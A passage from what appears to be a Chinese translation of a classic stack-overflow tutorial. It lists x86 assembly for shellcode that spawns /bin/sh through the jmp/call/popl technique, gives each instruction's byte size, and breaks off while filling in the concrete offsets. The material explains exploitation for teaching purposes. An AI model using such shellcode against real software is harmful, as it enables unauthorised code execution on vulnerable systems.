 &nbsp; &nbsp; 运用上述的修正方法, 并使用相对索引寻址, 我们代码中每条指令的字节数目如下:

&nbsp; &nbsp; 

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; offset-to-call&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,array-offset(%esi)&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,nullbyteoffset(%esi)# 4 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,null-offset(%esi)&nbsp; &nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;array-offset(%esi),%ecx&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;null-offset(%esi),%edx&nbsp; &nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;offset-to-popl&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;/bin/sh string goes here.

------------------------------------------------------------------------------

&nbsp;&nbsp;

&nbsp; &nbsp; 通过计算从jmp到call, 从call到popl, 从字串地址到数组, 从字串地址到空长字的

偏量, 我们得到:

------------------------------------------------------------------------------

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;jmp&nbsp; &nbsp; 0x26&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;popl&nbsp; &nbsp;%esi&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 1 byte

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes
